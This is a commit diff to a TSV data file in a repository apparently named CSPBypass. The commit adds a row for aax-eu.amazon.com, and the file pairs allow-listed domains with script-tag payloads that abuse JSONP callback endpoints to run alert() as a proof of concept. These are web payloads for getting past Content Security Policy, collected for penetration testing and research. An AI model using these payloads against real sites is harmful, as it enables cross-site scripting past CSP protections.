

Before and after one commit to renniepak/CSPBypass, a TSV file: data.tsv, drawn as a sheet; only a part is shown; the shorter side is filled out with more unchanged rows.

Commit message:
Added aax-eu.amazon.com

```diff
--- a/data.tsv
+++ b/data.tsv
@@ -1,2 +1,3 @@
 Domain	Code
+aax-eu.amazon.com	<script src="https://aax-eu.amazon.com/e/xsp/getAdj?callback=alert(1)-"></script>
 accounts.google.com	<script src="https://accounts.google.com/o/oauth2/revoke?callback=alert(1337)"></script>
```
